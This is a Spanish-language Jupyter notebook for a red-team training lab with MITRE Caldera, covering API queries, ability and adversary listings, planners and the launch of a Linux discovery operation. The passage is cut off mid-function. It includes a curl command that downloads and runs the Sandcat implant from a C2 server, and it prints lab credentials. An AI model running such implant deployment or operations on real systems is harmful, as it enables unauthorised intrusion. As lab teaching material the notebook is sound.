# 🔴 CALDERA RED TEAM PRACTICE LAB
## Laboratorio Avanzado de Red Team con MITRE Caldera

---

**Objetivos de la práctica:**
- Comprender la arquitectura y componentes de MITRE Caldera
- Diseñar y ejecutar operaciones de Red Team con múltiples tácticas ATT&CK
- Crear abilities y adversarios personalizados
- Analizar resultados con Python/Pandas y visualizarlos con Matplotlib/Seaborn
- Correlacionar técnicas ofensivas con capacidades defensivas (Suricata)

**Herramientas:**
| Herramienta | URL | Credenciales |
|-------------|-----|--------------|
| Caldera Web | http://localhost:18888 | admin / admin |
| Jupyter     | http://localhost:8889 | (sin contraseña) |

> ⚠️ **Aviso legal:** Este laboratorio es exclusivamente para fines educativos en un entorno controlado.
---

## Sección 0: Validación del Entorno 🔍

Antes de comenzar verificamos que el servicio de Caldera esté activo y que la API responda correctamente.

In [1]:
# ── Importaciones globales ──────────────────────────────────────────────────
import subprocess
import requests
import json
import os
import time
import uuid
from collections import Counter, defaultdict
from datetime import datetime

import pandas as pd
import matplotlib.pyplot as plt
import matplotlib.dates as mdates
try:
    import seaborn as sns
    HAS_SEABORN = True
except ImportError:
    HAS_SEABORN = False

# ── Constantes de configuración ─────────────────────────────────────────────
CALDERA_URL = 'http://localhost:8888'
CALDERA_KEY = 'REDADMIN123'
HEADERS     = {'KEY': CALDERA_KEY, 'Content-Type': 'application/json'}

print('✅ Importaciones completadas')
print(f'   Caldera URL : {CALDERA_URL}')
print(f'   Seaborn     : {"disponible" if HAS_SEABORN else "no instalado (pip install seaborn)"}')

✅ Importaciones completadas
   Caldera URL : http://localhost:8888
   Seaborn     : disponible


In [2]:
# ── Verificación de servicios systemd ───────────────────────────────────────
def check_service(name):
    result = subprocess.run(['systemctl', 'is-active', name],
                            capture_output=True, text=True)
    status = result.stdout.strip()
    icon   = '✅' if status == 'active' else '❌'
    print(f'{icon} Servicio {name:12s}: {status}')
    return status == 'active'

print('='*55)
print('  CALDERA RED TEAM LAB – Validación del Entorno')
print('='*55)
print('\n── Servicios systemd ──')
ok_caldera = check_service('caldera')
ok_jupyter = check_service('jupyter')

  CALDERA RED TEAM LAB – Validación del Entorno

── Servicios systemd ──
✅ Servicio caldera     : active
✅ Servicio jupyter     : active


In [3]:
# ── Verificar conectividad con la API de Caldera ────────────────────────────
def check_url(label, url, headers=None):
    try:
        r = requests.get(url, headers=headers or {}, timeout=5)
        icon = '✅' if r.status_code < 400 else '⚠️'
        print(f'{icon} {label:20s}: HTTP {r.status_code}')
        return r.status_code < 400, r
    except Exception as e:
        print(f'❌ {label:20s}: {e}')
        return False, None

print('\n── Endpoints HTTP ──')
ok_api, r_health = check_url('Caldera API Health', f'{CALDERA_URL}/api/v2/health', HEADERS)

if ok_api and r_health is not None:
    try:
        health = r_health.json()
        print(f'\n📋 Respuesta de /health:')
        print(json.dumps(health, indent=2))
    except Exception:
        print(r_health.text[:300])


── Endpoints HTTP ──
✅ Caldera API Health  : HTTP 200

📋 Respuesta de /health:
{
  "application": "Caldera",
  "version": "5.3.0",
  "access": "RED",
  "plugins": [
    {
      "name": "access",
      "description": "A toolkit containing initial access throwing modules",
      "enabled": true,
      "address": "/plugin/access/gui"
    },
    {
      "name": "atomic",
      "description": "The collection of abilities in the Red Canary Atomic test project",
      "enabled": true,
      "address": "/plugin/atomic/gui"
    },
    {
      "name": "compass",
      "description": "Use the compass to Navigate Caldera",
      "enabled": true,
      "address": "/plugin/compass/gui"
    },
    {
      "name": "debrief",
      "description": "some good bones",
      "enabled": true,
      "address": "/plugin/debrief/gui"
    },
    {
      "name": "emu",
      "description": "The collection of abilities from the CTID Adversary Emulation Plans",
      "enabled": false,
      "address": "/plugin/em

In [4]:
# ── Validar credenciales y mostrar agentes disponibles ──────────────────────
try:
    r_agents = requests.get(f'{CALDERA_URL}/api/v2/agents', headers=HEADERS, timeout=10)
    agents_list = r_agents.json() if r_agents.status_code == 200 else []
    print(f'Credenciales válidas. Agentes registrados: {len(agents_list)}')
    if agents_list:
        print('\n── Detalle de Agentes ──')
        for ag in agents_list:
            paw      = ag.get('paw', 'N/A')
            group    = ag.get('group', 'N/A')
            hostname = ag.get('host', 'N/A')
            platform = ag.get('platform', 'N/A')
            status   = ag.get('trusted', False)
            icon     = '🤖'
            print(f'  {icon} PAW:{paw}  grupo:{group}  host:{hostname}  plataforma:{platform}  confiable:{status}')
    else:
        print('No hay agentes registrados. Despliega un agente Sandcat primero.')
except Exception as e:
    print(f'Error al consultar agentes: {e}')

Credenciales válidas. Agentes registrados: 1

── Detalle de Agentes ──
  🤖 PAW:pxerem  grupo:red  host:suri-caldera-lab  plataforma:linux  confiable:True


In [5]:
# ── Mostrar versión de Caldera ───────────────────────────────────────────────
try:
    r_ver = requests.get(f'{CALDERA_URL}/api/v2/health', headers=HEADERS, timeout=5)
    if r_ver.status_code == 200:
        data = r_ver.json()
        version = data.get('version', 'N/A')
        plugins = data.get('plugins', [])
        print(f'�� Caldera versión : {version}')
        print(f'🔌 Plugins activos : {plugins}')
    else:
        print(f'⚠️ No se pudo obtener la versión: HTTP {r_ver.status_code}')
except Exception as e:
    print(f'❌ Error: {e}')

�� Caldera versión : 5.3.0
🔌 Plugins activos : [{'name': 'access', 'description': 'A toolkit containing initial access throwing modules', 'enabled': True, 'address': '/plugin/access/gui'}, {'name': 'atomic', 'description': 'The collection of abilities in the Red Canary Atomic test project', 'enabled': True, 'address': '/plugin/atomic/gui'}, {'name': 'compass', 'description': 'Use the compass to Navigate Caldera', 'enabled': True, 'address': '/plugin/compass/gui'}, {'name': 'debrief', 'description': 'some good bones', 'enabled': True, 'address': '/plugin/debrief/gui'}, {'name': 'emu', 'description': 'The collection of abilities from the CTID Adversary Emulation Plans', 'enabled': False, 'address': '/plugin/emu/gui'}, {'name': 'fieldmanual', 'description': 'Holds and serves Caldera documentation', 'enabled': True, 'address': '/plugin/fieldmanual/gui'}, {'name': 'gameboard', 'description': 'Monitor a red-and-blue team operation', 'enabled': True, 'address': '/plugin/gameboard/gui'}, {'nam

## Sección 1: Introducción Conceptual

### ¿Qué es MITRE Caldera?

**MITRE Caldera** es una plataforma de emulación de adversarios de código abierto desarrollada por MITRE Corporation.
Implementa el framework MITRE ATT&CK para automatizar operaciones de Red Team y evaluaciones de seguridad.

#### Arquitectura
```
┌──────────────────────────────────────────────────────┐
│                  Caldera Server                      │
│  ┌──────────┐  ┌──────────┐  ┌──────────────────┐  │
│  │ REST API │  │ Web GUI  │  │  Plugin Engine   │  │
│  └──────────┘  └──────────┘  └──────────────────┘  │
│  ┌──────────────────────────────────────────────┐   │
│  │            Planning Engine                   │   │
│  │  Sequential | Batch | Landmine | Likely      │   │
│  └──────────────────────────────────────────────┘   │
└─────────────────────┬────────────────────────────────┘
                      │ C2 (HTTP/DNS/SMTP)
         ┌────────────┴────────────┐
    ┌────┴────┐              ┌────┴────┐
    │ Agent 1 │              │ Agent 2 │
    │ Sandcat │              │ Ragdoll │
    └─────────┘              └─────────┘
```

#### Conceptos Clave

| Concepto | Descripción |
|----------|-------------|
| **Agent** | Proceso implantado en el objetivo. Recibe y ejecuta tareas. Ej: Sandcat (Go), Ragdoll (Python) |
| **Ability** | Técnica atómica mapeada a una táctica/técnica MITRE ATT&CK. Contiene comandos por plataforma |
| **Adversary** | Perfil que agrupa abilities en un orden lógico. Define el comportamiento del atacante |
| **Operation** | Ejecución de un adversario sobre un grupo de agentes. Registra todos los resultados |
| **Planner** | Algoritmo que decide qué abilities ejecutar y en qué orden |
| **Fact** | Dato extraído dinámicamente (hostname, usuario, IP) usado para abilities posteriores |
| **Source** | Colección de facts predefinidos que alimentan una operación |
| **Objective** | Criterio de éxito de una operación (número de facts recopilados) |

#### Relación con MITRE ATT&CK

Caldera organiza sus abilities siguiendo la taxonomía ATT&CK:
- **Tácticas**: categorías de alto nivel (reconnaissance, execution, persistence…)
- **Técnicas**: métodos específicos (T1082 System Info, T1059 Command Interpreter…)
- **Sub-técnicas**: variantes de una técnica (T1059.001 PowerShell, T1059.004 Bash…)

#### Casos de Uso
1. 🔴 **Red Team**: automatizar campañas de ataque contra infraestructura propia
2. 🟣 **Purple Team**: Red y Blue trabajan juntos para medir capacidades de detección
3. 🎓 **Security Training**: entrenar analistas en reconocimiento de TTPs
4. 🔍 **Threat Hunting**: simular TTPs de APTs conocidos para probar defensas

#### Caldera vs Metasploit

| Característica | Caldera | Metasploit |
|----------------|---------|------------|
| Enfoque | ATT&CK emulation | Exploit/payload |
| Automatización | Alta (planners) | Manual/semi-auto |
| Reporting | Integrado | Externo |
| Cobertura ATT&CK | Nativa | Parcial |
| Curva aprendizaje | Media | Alta |

## Sección A: Fundamentos de Caldera 🔧

### A.1 – Exploración de Abilities

In [6]:
# ── A.1 Obtener y analizar abilities disponibles ────────────────────────────
try:
    r = requests.get(f'{CALDERA_URL}/api/v2/abilities', headers=HEADERS, timeout=15)
    r.raise_for_status()
    abilities = r.json()
    print(f'📋 Total de abilities disponibles: {len(abilities)}')
except Exception as e:
    abilities = []
    print(f'❌ Error al obtener abilities: {e}')

# Agrupar por táctica
tactic_counts = Counter(a.get('tactic', 'unknown') for a in abilities)
print('\n── Distribución por Táctica MITRE ATT&CK ──')
for tactic, count in sorted(tactic_counts.items(), key=lambda x: -x[1]):
    bar = '█' * min(count, 35)
    print(f'  {tactic:30s} {bar} ({count})')

📋 Total de abilities disponibles: 1914

── Distribución por Táctica MITRE ATT&CK ──
  defense-evasion                ███████████████████████████████████ (447)
  multiple                       ███████████████████████████████████ (444)
  discovery                      ███████████████████████████████████ (360)
  credential-access              ███████████████████████████████████ (186)
  execution                      ███████████████████████████████████ (121)
  command-and-control            ███████████████████████████████████ (93)
  impact                         ███████████████████████████████████ (74)
  collection                     ███████████████████████████████████ (70)
  exfiltration                   ███████████████████████████████████ (36)
  persistence                    ███████████████████████████████████ (35)
  lateral-movement               ████████████████████████████ (28)
  privilege-escalation           ███████████ (11)
  initial-access                 █████ (5)
  reconnais



Gráfico guardado: abilities_por_tactica.png


In [7]:
# ── A.1 Gráfico de barras: abilities por táctica ────────────────────────────
if tactic_counts:
    tactics_sorted = sorted(tactic_counts.items(), key=lambda x: x[1])
    labels  = [t[0] for t in tactics_sorted]
    values  = [t[1] for t in tactics_sorted]
    colors  = plt.cm.RdYlGn_r([v / max(values) for v in values])

    fig, ax = plt.subplots(figsize=(10, max(4, len(labels) * 0.45)))
    bars = ax.barh(labels, values, color=colors, edgecolor='black', linewidth=0.5)
    ax.bar_label(bars, padding=3, fontsize=9)
    ax.set_xlabel('Número de Abilities')
    ax.set_title('Abilities por Táctica MITRE ATT&CK', fontsize=13, fontweight='bold')
    ax.set_xlim(0, max(values) * 1.15)
    ax.grid(axis='x', alpha=0.3)
    plt.tight_layout()
    plt.savefig('abilities_por_tactica.png', dpi=120, bbox_inches='tight')
    plt.show()
    print('Gráfico guardado: abilities_por_tactica.png')
else:
    print('No hay datos de abilities para graficar')

### A.2 – Adversarios Predefinidos

Caldera incluye adversarios predefinidos que modelan comportamientos de APTs reales.
Cada adversario agrupa abilities ordenadas según la cadena de ataque del grupo emulado.

In [8]:
# ── A.2 Listar adversarios predefinidos ─────────────────────────────────────
try:
    r = requests.get(f'{CALDERA_URL}/api/v2/adversaries', headers=HEADERS, timeout=10)
    r.raise_for_status()
    adversaries_all = r.json()
    print(f'Total adversarios: {len(adversaries_all)}')
except Exception as e:
    adversaries_all = []
    print(f'Error: {e}')

print(f'\n{"Nombre":40s} {"Abilities":>9s}  Descripción')
print('-'*90)
for adv in adversaries_all:
    name   = adv.get('name', 'N/A')
    n_ab   = len(adv.get('atomic_ordering', []))
    desc   = (adv.get('description', '') or '')[:45]
    print(f'  {name:38s} {n_ab:6d}    {desc}')

Total adversarios: 41

Nombre                                   Abilities  Descripción
------------------------------------------------------------------------------------------
  Advanced Thief                              3    An adversary to steal sensitive files
  Advanced Thief via DropBox                  3    Find, stage, and exfiltrate sensitive files o
  Advanced Thief via FTP                      3    Find, stage, and exfiltrate sensitive files o
  Advanced Thief via GitHub Gist              3    Exfil a compressed archive to a GitHub Gist (
  Advanced Thief via GitHub Repo              3    Find, stage, and exfiltrate sensitive files t
  Alice 2.0                                   9    Adversary used for demoing restricted lateral
  Check                                       8    Profile to check proper platform configuratio
  Collection                                  4    A collection adversary
  Defense Evasion                            36    General defense-evasion se

In [9]:
# ── A.2 Mapeo de técnicas por adversario ────────────────────────────────────
# Construir índice de abilities por ID
ab_index = {a['ability_id']: a for a in abilities if 'ability_id' in a}

print('── Técnicas ATT&CK por adversario (primeros 5) ──\n')
for adv in adversaries_all:
    name    = adv.get('name', 'N/A')
    ab_ids  = adv.get('atomic_ordering', [])
    print(f'{name}')
    for ab_id in ab_ids:
        ab   = ab_index.get(ab_id, {})
        tid  = ab.get('technique_id', '?')
        tname = ab.get('name', ab_id)[:50]
        tact  = ab.get('tactic', '?')
        print(f'   [{tid}] {tname} ({tact})')
    if len(ab_ids) > 6:
        print(f'   ... y {len(ab_ids)-6} más')
    print()

── Técnicas ATT&CK por adversario (primeros 5) ──

Advanced Thief
   [T1119] Advanced File Search and Stager (collection)
   [T1560.001] Compress staged directory (exfiltration)
   [T1041] Exfil staged directory (exfiltration)

Advanced Thief via DropBox
   [T1119] Advanced File Search and Stager (collection)
   [T1560.001] Compress staged directory (Password Protected) (collection)
   [T1567.002] Exfil Compressed Archive to Dropbox (exfiltration)

Advanced Thief via FTP
   [T1119] Advanced File Search and Stager (collection)
   [T1560.001] Compress staged directory (Password Protected) (collection)
   [T1048.003] Exfil Compressed Archive to FTP Server (exfiltration)

Advanced Thief via GitHub Gist
   [T1119] Advanced File Search and Stager (collection)
   [T1560.001] Compress staged directory (Password Protected) (collection)
   [T1567.001] Exfil Compressed Archive to Github Gist (exfiltration)

Advanced Thief via GitHub Repo
   [T1119] Advanced File Search and Stager (collection)
   

### A.3 – Planificadores
El planificador determina el orden y la lógica de ejecución de los abilities dentro de una operación.

| Planificador | Estrategia | Caso de uso |
|--------------|------------|-------------|
| **atomic** | Durante cada fase de la operación, el planificador atómico itera a través de cada agente y envía la siguiente habilidad disponible que cree que el agente puede completar. Esta decisión se basa en que el agente coincida con el sistema operativo (plataforma de ejecución) de la habilidad y que el comando de la habilidad no tenga variables insatisfechas. Luego, el planificador espera a que cada agente complete su comando antes de determinar las habilidades subsiguientes. Las habilidades se procesan en el orden establecido por el orden atómico de cada agente. Por ejemplo, si el agente A tiene el orden atómico (A1, A2, A3) y el agente B tiene el orden atómico (B1, B2, B3), entonces el planificador enviaría (A1, B1) en la primera fase, luego (A2, B2), etc. | Campañas predecibles, demos |
| **batch** | Durante cada fase de la operación, el planificador de lotes recorre todos los agentes (que forman parte del grupo de la operación) y les envía una lista de todos los comandos de capacidad que considera que puede completar. Esta decisión se basa en que el agente coincida con el sistema operativo (plataforma de ejecución) de la capacidad y en que el comando de capacidad no tenga variables sin satisfacer. A continuación, espera a que cada agente complete su lista de comandos antes de pasar a la siguiente fase. En las operaciones sin fases, todos los comandos aplicables se ejecutan en una sola fase, que luego se completa y finaliza la operación. | Máxima cobertura rápida |
| **bayes** | El planificador Bayes decide qué links y habilidades ejecutar en cada paso de la operación utilizando estadísticas de datos operativos previos de Caldera (acciones/habilidades ejecutadas anteriormente). Emplea parámetros controlables por el usuario, como la probabilidad mínima de éxito de un link y la cantidad mínima de datos requeridos (configurables en `48e1a882-1606-4910-8f2d-2352eb80cba2.yml`), para tomar decisiones adaptables a los criterios definidos y ejecutar únicamente los links con la confianza y significancia de datos necesarias. Las operaciones se ejecutan automáticamente en orden de probabilidad de éxito (de mayor a menor); los links con datos insuficientes se ejecutan al final, y aquellos con datos suficientes pero baja probabilidad de éxito se descartan. Permite ejecutar operaciones con alta confianza en cada link y priorizar automáticamente las habilidades más efectivas. | Operaciones adaptativas basadas en datos históricos |
| **buckets** | El planificador buckets es una variante del planificador batch que aprovecha las nuevas funcionalidades de buckets dentro de Caldera. Cada una de las habilidades en Caldera se organiza en buckets en función de sus tácticas correspondientes en ATT&CK por defecto, con la posibilidad de definir mapeos no predeterminados. Este planificador simplemente recorre todas las habilidades disponibles para el adversario proporcionado, siguiendo el orden de tácticas establecido en la matriz de ATT&CK, e itera nuevamente si quedan acciones por realizar. | Ejecución estructurada por tácticas ATT&CK |
| **guided** | El planificador guided mapea entre links que probablemente logren un objetivo dado y ejecuta los links en el orden con mayor probabilidad de alcanzar las metas establecidas en la ejecución más corta posible. | Operaciones orientadas a objetivos específicos |
| **look ahead** | El planificador look ahead decide qué habilidades utilizar en función de las recompensas futuras anticipadas. Recibe como entrada una tabla de recompensas de habilidades, un parámetro de profundidad y un factor de descuento. El parámetro de profundidad controla efectivamente el "alcance anticipado" del planificador al puntuar cada acción, mientras que el factor de descuento determina cómo se ponderan las recompensas futuras. | Toma de decisiones estratégica con visión a futuro |

In [10]:
# ── A.3 Listar planificadores disponibles ────────────────────────────────────
try:
    r = requests.get(f'{CALDERA_URL}/api/v2/planners', headers=HEADERS, timeout=10)
    r.raise_for_status()
    planners = r.json()
    print(f'Planificadores disponibles: {len(planners)}')
    print()
    for p in planners:
        name  = p.get('name', 'N/A')
        desc  = (p.get('description', '') or '')[:80]
        print(f'  Planificador:    {name}')
        print(f'  Descripción:    {desc}')
        print()
except Exception as e:
    planners = []
    print(f'Error al obtener planificadores: {e}')

Planificadores disponibles: 6

  Planificador:    atomic
  Descripción:    During each phase of the operation, the atomic planner iterates through each age

  Planificador:    batch
  Descripción:    During each phase of the operation, the batch planner loops through all agents (

  Planificador:    bayes
  Descripción:    The Bayes planner decides which links and abilities to execute at each step of t

  Planificador:    buckets
  Descripción:    The buckets planner is a variant of the batch planner that makes use of the new 

  Planificador:    guided
  Descripción:    The guided planner will map between links likely to achieve a given goal
and exe

  Planificador:    look ahead
  Descripción:    The look ahead planner decides what abilities to use based on anticipated
future



## Sección B: Primera Operación – Reconocimiento Simple

### B.1 – Registro de Agente

Para ejecutar operaciones necesitamos al menos un agente registrado.

**Cómo desplegar un agente Sandcat (Linux):**
```bash
# En el terminal del sistema objetivo (agente):
curl -s -X POST -H 'file:sandcat.go-linux' \
     -H 'platform:linux' \
     http://192.168.56.10:8888/file/download > /tmp/sandcat
chmod +x /tmp/sandcat
/tmp/sandcat -server http://192.168.56.10:8888 -group red -v
```
> El agente se registra automáticamente en Caldera y aparece en la lista de agentes.

In [11]:
# ── B.1 Obtener agentes disponibles ─────────────────────────────────────────
try:
    r = requests.get(f'{CALDERA_URL}/api/v2/agents', headers=HEADERS, timeout=10)
    r.raise_for_status()
    agents_list = r.json()
    print(f' Agentes registrados: {len(agents_list)}')
except Exception as e:
    agents_list = []
    print(f' Error al obtener agentes: {e}')

# Guardar primer agente para uso posterior
first_paw   = None
first_group = 'red'

if agents_list:
    print(f'\n{"PAW":12s} {"Grupo":10s} {"Host":20s} {"Plataforma":12s} {"Trusted":>8s}')
    print('-'*70)
    for ag in agents_list:
        paw      = ag.get('paw', 'N/A')
        group    = ag.get('group', 'N/A')
        host     = ag.get('host', 'N/A')
        platform = ag.get('platform', 'N/A')
        trusted  = ag.get('trusted', False)
        print(f'  {paw:10s} {group:10s} {host:20s} {platform:12s} {str(trusted):>8s}')
        if first_paw is None:
            first_paw   = paw
            first_group = group
    print(f'\nAgente seleccionado: PAW={first_paw}, grupo={first_group}')
else:
    print(' Sin agentes. Las operaciones usarán grupo "red" por defecto.')

 Agentes registrados: 1

PAW          Grupo      Host                 Plataforma    Trusted
----------------------------------------------------------------------
  pxerem     red        suri-caldera-lab     linux            True

Agente seleccionado: PAW=pxerem, grupo=red


### B.2 – Crear Adversario Personalizado (Discovery)

Seleccionamos abilities de reconocimiento para crear nuestro primer adversario personalizado.

**Técnicas incluidas:**
| ID | Técnica | Descripción |
|----|---------|-------------|
| T1082 | System Information Discovery | Información del SO y hardware |
| T1057 | Process Discovery | Lista de procesos en ejecución |
| T1033 | System Owner/User Discovery | Identificar usuario actual |
| T1007 | System Service Discovery | Servicios activos en el sistema |
| T1016 | System Network Configuration | Configuración de red |

In [12]:
# ── B.2 Filtrar abilities de discovery ───────────────────────────────────────
discovery_tactics = {'discovery', 'reconnaissance'}
discovery_ab = [a for a in abilities if a.get('tactic', '') in discovery_tactics]
print(f'🔍 Abilities de reconocimiento disponibles: {len(discovery_ab)}')

# Mostrar las primeras abilities con sus técnicas
print(f'\n{"ID Técnica":12s} {"Nombre":40s} {"Táctica":20s}')
print('-'*75)
selected_disc_ids = []
target_techniques = {'T1082', 'T1057', 'T1033', 'T1007', 'T1016'}
for ab in discovery_ab:
    tid  = ab.get('technique_id', '')
    name = ab.get('name', 'N/A')[:38]
    tact = ab.get('tactic', 'N/A')
    abid = ab.get('ability_id', '')
    marker = ' ' if tid in target_techniques and abid not in selected_disc_ids else ''
    if tid in target_techniques and abid not in selected_disc_ids:
        selected_disc_ids.append(abid)
    print(f'  {tid:10s} {name:40s} {tact:20s}{marker}')

# Si no tenemos suficientes, añadir las primeras disponibles
for ab in discovery_ab:
    if len(selected_disc_ids) >= 5:
        break
    abid = ab.get('ability_id', '')
    if abid not in selected_disc_ids:
        selected_disc_ids.append(abid)

print(f'\n Abilities seleccionados: {len(selected_disc_ids)}')

🔍 Abilities de reconocimiento disponibles: 362

ID Técnica   Nombre                                   Táctica             
---------------------------------------------------------------------------
  T1580      AWS - EC2 Enumeration from Cloud Insta   discovery           
  T1580      AWS - EC2 Security Group Enumeration     discovery           
  T1526      AWS - Enumerate common cloud services    discovery           
  T1619      AWS S3 Enumeration                       discovery           
  T1087.002  Account Discovery (all)                  discovery           
  T1087.002  Account Discovery (targeted)             discovery           
  T1087.002  Account Enumeration with LDAPDomainDum   discovery           
  T1069.002  Account-type Admin Enumerator            discovery           
  T1087.002  Active Directory Domain Search           discovery           
  T1069.002  Active Directory Domain Search Using L   discovery           
  T1069.002  Active Directory Enumeration with LDIF

In [13]:
# ── B.2 Filtrar abilities de discovery SOLO PARA LINUX ─────────────────────
discovery_tactics = {'discovery', 'reconnaissance'}
discovery_ab = [a for a in abilities if a.get('tactic', '') in discovery_tactics]

print(f'🔍 Total de abilities de reconocimiento: {len(discovery_ab)}')

# 🐧 Filtrar solo Linux - buscar en executors
linux_discovery = []
for ab in discovery_ab:
    executors = ab.get('executors', [])
    for executor in executors:
        if isinstance(executor, dict):
            platform = executor.get('platform', '').lower()
            if 'linux' in platform:
                linux_discovery.append(ab)
                break
        elif isinstance(executor, str):
            if 'linux' in executor.lower():
                linux_discovery.append(ab)
                break

print(f'🔍 Abilities de reconocimiento (LINUX): {len(linux_discovery)}')

# Mostrar abilities con sus plataformas
print(f'\n{"ID Técnica":12s} {"Nombre":40s} {"Plataforma":20s}')
print('-'*75)
selected_disc_ids = []
target_techniques = {'T1082', 'T1057', 'T1033', 'T1007', 'T1016'}

for ab in linux_discovery:
    tid  = ab.get('technique_id', '')
    name = ab.get('name', 'N/A')[:38]
    executors = ab.get('executors', [])
    platform = 'linux'
    if executors and isinstance(executors[0], dict):
        platform = executors[0].get('platform', 'N/A')
    abid = ab.get('ability_id', '')
    
    marker = ' ' if tid in target_techniques and abid not in selected_disc_ids else ''
    if tid in target_techniques and abid not in selected_disc_ids:
        selected_disc_ids.append(abid)
    print(f'  {tid:10s} {name:40s} {platform:20s}{marker}')

# Si no tenemos suficientes, añadir las primeras disponibles
for ab in linux_discovery:
    if len(selected_disc_ids) >= 5:
        break
    abid = ab.get('ability_id', '')
    if abid not in selected_disc_ids:
        selected_disc_ids.append(abid)

print(f'\n Abilities seleccionados (Linux): {len(selected_disc_ids)}')

🔍 Total de abilities de reconocimiento: 362
🔍 Abilities de reconocimiento (LINUX): 89

ID Técnica   Nombre                                   Plataforma          
---------------------------------------------------------------------------
  T1580      AWS - EC2 Enumeration from Cloud Insta   darwin              
  T1087.002  Account Enumeration with LDAPDomainDum   linux               
  T1087.002  Active Directory Domain Search           linux               
  T1069.002  Active Directory Domain Search Using L   linux               
  T1518      Check Chrome                             darwin              
  T1518      Check Go                                 darwin              
  T1518      Check Python                             darwin              
  T1016.001  Check internet connection using ping f   darwin              
  T1018      Collect ARP details                      darwin              
  T1033      Current User                             darwin               
  T1652    

In [14]:
# ── B.2 Crear adversario 'Lab-Discovery' ────────────────────────────────────
adversary_disc = {
    'name': 'Lab-Discovery',
    'description': 'Adversario educativo: reconocimiento del sistema (Sección B) - LINUX ONLY',
    'atomic_ordering': selected_disc_ids[:5]
}

print(f' Adversario a crear:')
print(f'   Nombre: {adversary_disc["name"]}')
print(f'   Abilities: {len(selected_disc_ids)} seleccionados')
print(f'   IDs: {selected_disc_ids}')

try:
    r = requests.post(f'{CALDERA_URL}/api/v2/adversaries',
                      headers=HEADERS,
                      json=adversary_disc,
                      timeout=10)
    if r.status_code in (200, 201):
        adv_disc = r.json()
        adv_disc_id = adv_disc.get('adversary_id', adv_disc.get('id', ''))
        print(f'\n Adversario creado correctamente')
        print(f'   Nombre: {adv_disc.get("name")}')
        print(f'   ID: {adv_disc_id}')
        print(f'   Abilities: {len(adv_disc.get("atomic_ordering", []))}')
    else:
        print(f'\n  Respuesta inesperada: HTTP {r.status_code}')
        print(f'   Error: {r.text[:300]}')
        adv_disc_id = None
except Exception as e:
    adv_disc_id = None
    print(f'\n Error al crear adversario: {e}')

 Adversario a crear:
   Nombre: Lab-Discovery
   Abilities: 25 seleccionados
   IDs: ['bd527b63-9f9e-46e0-9816-b8434d2b8989', '1b136a8709fa5453cd8e9a8a23bb78ec', '30732a56-4a23-4307-9544-09caf2ed29d5', '3b5db901-2cb8-4df7-8043-c4628a6a5d5a', '1d01dd497e382250df145242095827fd', 'ede4a9112d7a44977702505de1d42091', 'ea3340f2148eb5c7efaf1f3876c3e64f', 'c0da588f-79f0-4263-8998-7496b1a40596', 'b987ce78-e11d-4819-9741-9bea81f531ff', '46098c66-8d9a-4d23-8a95-dd5021c385ae', 'd7456d8122cfc76421fc4806934fc448', '262940d24f2ae038e7b0f3e008c30619', 'c14d761d0a6ca20d051b21dc2a9be7a8', 'f3f16e4f5dc4b8b82f836be128912436', 'e8017c46-acb8-400c-a4b5-b3362b5b5baa', 'a0676fe1-cd52-482e-8dde-349b73f9aa69', '5f03605af1c5d84456f2597e177d8206', '9a30740d-3aa8-4c23-8efa-d51215e8a5b9', 'e037b87a48373a76106c0e4a164bcdf7', '4370001012f5f0df001269627b4737e9', 'ecd9732b3267b5bb4e2dbca15d4a7317', 'a990072f8516ebc9cfe2608e65f21433', '5a39d7ed-45c9-4a79-b581-e5fb99e24f65', '335cea7b-bec0-48c6-adfb-6066070f5f68', '0093c

### B.3 – Ejecutar Operación

In [15]:
# ── B.3 Crear y lanzar operación de reconocimiento ──────────────────────────
op_disc_id = None

if adv_disc_id:
    operation_disc = {
        'name': f'Lab-Op-Discovery-{datetime.now().strftime("%H%M%S")}',
        'adversary': {'adversary_id': adv_disc_id},
        'planner':   {'id': 'aaa7c857-37a0-4c4a-85f7-4e9f7f30e31a'},
        'group':     first_group,
        'auto_close': True,
        'state':     'running'
    }
    try:
        r = requests.post(f'{CALDERA_URL}/api/v2/operations',
                          headers=HEADERS,
                          json=operation_disc,
                          timeout=10)
        if r.status_code in (200, 201):
            op_disc = r.json()
            op_disc_id = op_disc.get('id', '')
            print(f'✅ Operación iniciada: {op_disc.get("name")} (ID: {op_disc_id})')
            print(f'   Estado inicial: {op_disc.get("state", "N/A")}')
        else:
            print(f'⚠️  Error al crear operación: HTTP {r.status_code}')
            print(r.text[:300])
    except Exception as e:
        print(f'❌ Error: {e}')
else:
    print('⚠️  No se puede lanzar operación sin adversario válido')

✅ Operación iniciada: Lab-Op-Discovery-101440 (ID: 6459b103-80a9-41c5-9fd3-e9d0e2e7a951)
   Estado inicial: running


In [16]:
# ── B.3 Monitorear progreso de la operación ──────────────────────────────────
def poll_operation(op_id, max_iter=30, sleep_sec=5):
